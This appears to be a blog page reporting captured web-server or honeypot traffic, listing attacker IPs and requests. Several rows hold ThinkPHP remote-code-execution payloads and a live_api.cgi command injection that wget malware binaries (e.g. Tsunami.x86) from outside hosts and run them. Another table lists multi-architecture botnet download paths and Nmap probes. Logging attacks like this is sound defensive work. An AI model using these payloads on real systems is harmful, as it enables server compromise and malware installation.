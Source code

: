 | 217.160.89.196  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://45.137.70.156/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1     |
| 82.163.187.247  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1 |
| 110.175.39.203  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1 |
| 90.198.129.58   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1 |
| 61.61.62.201    | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.201/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1   |
| 51.190.15.243   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1 |
| 31.170.22.205   | GET /cgi-bin/live_api.cgi?page=satellite_list&id=&ip=$(cd+/tmp;wget+http://31.170.22.205/dl18;busybox+wget+http://31.170.22.205/dl18;sh+dl18) HTTP/1.1                                                                                      |
| 121.22.35.6     | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1               |
| 119.74.42.105   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://45.125.12.175/OwO/Tsunami.x86 -O /tmp/.Tsunami; chmod 777 /tmp/.Tsunami; /tmp/.Tsunami Tsunami.x86' HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|      |   number_of_occurence | request                                                                   |
|-----:|----------------------:|:--------------------------------------------------------------------------|
|  114 |                     4 | GET /manifest.json HTTP/1.1                                               |
|  189 |                     3 | GET /x0ox0ox0oxDefault/z0r0.arc HTTP/1.1                                  |
|  191 |                     3 | GET /x0ox0ox0oxDefault/z0r0.sh4 HTTP/1.1                                  |
|  194 |                     3 | GET /x0ox0ox0oxDefault/z0r0.mips HTTP/1.1                                 |
|  195 |                     3 | GET /x0ox0ox0oxDefault/z0r0.m68k HTTP/1.1                                 |
|  198 |                     3 | GET /x0ox0ox0oxDefault/z0r0.x86 HTTP/1.1                                  |
|  207 |                     3 | GET /x0ox0ox0oxDefault/z0r0.arm5 HTTP/1.1                                 |
|  317 |                     3 | GET /x0ox0ox0oxDefault/z0r0.arm6 HTTP/1.1                                 |
|  318 |                     3 | GET /x0ox0ox0oxDefault/z0r0.mpsl HTTP/1.1                                 |
|  588 |                     2 | GET /x0ox0ox0oxDefault/z0r0.ppc HTTP/1.1                                  |
|  589 |                     2 | GET /x0ox0ox0oxDefault/z0r0.arm7 HTTP/1.1                                 |
|  590 |                     2 | GET /x0ox0ox0oxDefault/z0r0.arm HTTP/1.1                                  |
|  593 |                     2 | GET /mailman/listinfo/mailman HTTP/1.1                                    |
|  619 |                     1 | GET http://www.chinaso.com/?0.10760317674236344196592736 HTTP/1.1         |
|  650 |                     1 | GET http://www.blackle.com/?0.4020326830433873311558716 HTTP/1.1          |
|  687 |                     1 | GET /Nmap/folder/check1743864234 HTTP/1.1                                 |
|  691 |                     1 | GET /NmapUpperCheck1743864234 HTTP/1.1                                    |
|  699 |                     1 | GET /i8Xc HTTP/1.1                                                        |
|  703 |                     1 | GET /nmaplowercheck1743864234 HTTP/1.1                                    |
|  743 |                     1 | GET /lh8P HTTP/1.1                                                        |
|  757 |                     1 | \x00\x0E8\xA0\xC9o\xFF9d\x9A\xAD\x00\x00\x00\x00\x00                      |
|  758 |                     1 | \x00\x0E\x08\xA0\xC9o\xFF9d\x9A\xAD\x00\x00\x00\x00\x00                   |
| 1001 |                     1 | GET /users/users/users/users/users/users/users/users/users/login HTTP/1.1 |
